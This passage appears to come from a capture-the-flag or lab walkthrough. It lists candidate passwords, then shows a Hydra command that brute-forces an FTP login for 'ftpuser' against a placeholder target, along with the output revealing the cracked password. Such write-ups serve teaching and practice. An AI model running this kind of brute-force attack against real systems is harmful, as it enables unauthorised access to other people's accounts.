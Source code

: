 ```
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

- Now that we have the username and a potential wordlist, we can leverage something like [Hydra](https://github.com/vanhauser-thc/thc-hydra) to brute force the FTP login. First, let's copy and paste the potential password list into a `wordlist.txt` file to feed to [Hydra](https://github.com/vanhauser-thc/thc-hydra). Next, we can use the following syntax to start the attack:
```
hydra -l ftpuser -P wordlist.txt ftp://target-ip
```

- After a short time, we are greeted with the following output:
```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-12-11 16:18:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://target-ip:21/
[21][ftp] host: target-ip   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-11 16:18:19
```
